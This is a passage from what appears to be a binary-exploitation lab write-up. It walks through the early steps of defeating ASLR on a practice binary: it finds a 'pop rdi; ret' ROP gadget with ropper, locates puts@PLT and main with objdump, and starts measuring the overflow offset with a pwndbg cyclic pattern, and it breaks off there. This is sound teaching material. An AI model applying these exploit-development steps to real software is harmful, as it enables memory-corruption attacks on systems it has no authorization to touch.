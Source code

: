 #### Finding ROP Gadgets

```
ropper --file aslr-1 --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: aslr-1
0x00000000004011cb: pop rdi; ret;
```

You might be wondering how we would call `puts()`, this is a good question because we can <mark style="color:yellow;">call</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@PLT`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">through the Procedure Linkage Table</mark> (PLT) "trampoline".

This works because <mark style="color:yellow;">this address is fixed and unaffected by ASLR</mark>.

#### Obtaining `puts@PLT` via `objdump`:

```
objdump -d -M intel aslr-1 | grep "puts@plt"
0000000000401030 <puts@plt>:
  401146:	e8 e5 fe ff ff       	call   401030 <puts@plt>
  401161:	e8 ca fe ff ff       	call   401030 <puts@plt>
```

```
0x0000000000401030 <puts@plt>
```

### Obtain `main()` via `objdump`:

```
objdump -D aslr1 | grep main
  401084:	ff 15 66 2f 00 00    	call   *0x2f66(%rip)        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
0000000000401142 <main>:
```

### Finding Offset of Where our Overflow Begins

#### Throw binary into `pwndbg` and follow along:

<pre><code>gdb aslr-1

cyclic 100

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

b gets

r
